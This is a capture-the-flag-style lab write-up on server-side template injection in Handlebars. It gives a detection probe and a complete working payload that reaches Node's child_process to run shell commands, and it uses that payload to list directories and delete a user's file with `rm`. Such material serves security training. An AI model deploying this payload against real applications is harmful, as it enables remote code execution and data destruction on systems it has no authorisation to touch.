






# Lab: Server-side template injection in an unknown language with a documented exploit

> Lab Objective: identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

- View any product which is out of stock, you'll be redirected to `/?message=message`, add this payload `}}${{7*7}}` to the message and it'll cause an error, the template used is Handlebars.
  

- In order to list root directory use the following payload:

```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -a /home');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```



- Use the same payload to list `/home` directory.
  

- Use it again to list `/home/carlos` directory.
  

- Use it again but to delete `morale.txt` file using this command `rm /home/carlos/morale.txt`
  

- And the lab is solved
  

---
